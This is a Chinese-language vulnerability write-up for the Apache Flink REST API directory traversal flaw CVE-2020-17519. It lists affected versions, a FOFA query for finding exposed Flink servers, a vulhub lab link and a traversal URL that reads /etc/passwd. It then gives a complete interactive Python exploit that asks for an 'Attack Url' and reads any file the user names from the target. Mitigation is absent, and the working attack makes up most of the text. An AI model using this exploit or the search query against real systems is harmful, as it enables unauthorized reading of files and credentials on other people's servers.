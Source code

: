 # Apache Flink 目录遍历漏洞 CVE-2020-17519

## 漏洞描述

2021年01月06日，360CERT监测发现`Apache Flink`发布了`Apache Flink 目录穿越漏洞,目录穿越漏洞`的风险通告，漏洞编号为`CVE-2020-17518,CVE-2020-17519`，漏洞等级：`高危`，漏洞评分：`8.5`。

远程攻击者通过`REST API`目录遍历，可造成`文件读取/写入`的影响。

## 漏洞影响

```
Apache Flink 1.11.0
Apache Flink 1.11.1
Apache Flink 1.11.2
```

## FOFA

```
app="Apache Flink"
```

## 环境搭建

```plain
https://github.com/vulhub/vulhub/tree/master/flink/CVE-2020-17519
```

![1](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090034820.png)

## 漏洞复现

```plain
POC:
http://xxx.xxx.xxx.xxx/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

![image-20220211110713833](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202111107911.png)

## 漏洞POC

```python
import requests
import sys
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mVersion: Apache Flink   1.11.0-1.11.2                             \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-17519.py                                  \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mFile        >>> /etc/passwd                                        \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, file_name):
    file_name = file_name.replace("/", "%252f")
    vuln_url = target_url + "/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..{}".format(file_name)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, timeout=10, verify=False, headers=headers)
        print("\033[32m[o] 请求URL ： {}\033[0m".format(vuln_url))
        if "root" in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞,成功读取 /etc/passwd ，响应为:\n{}\033[0m".format(target_url, response.text))
        else :
            print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, file_name):
    file_name_re = file_name.replace("/", "%252f")
    vuln_url = target_url + "/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..{}".format(file_name_re)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, timeout=10, verify=False, headers=headers)
        print("\033[32m[o] 请求URL ： {}\033[0m".format(vuln_url))
        if "error" not in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞,成功读取 {} ，响应为:\n{}\033[0m".format(target_url, file_name, response.text))
        else :
            print("\033[31m[x] 目标文件{}读取失败\033[0m".format(file_name))

    except Exception as e:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    file_name = "/etc/passwd"
    POC_1(target_url, file_name)

    while True:
        file_name = input("\033[35mFile >>> \033[0m")
        if file_name == "exit":
            sys.exit(0)
        else:
            POC_2(target_url, file_name)
```

![image-20220211111729412](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202111117492.png)

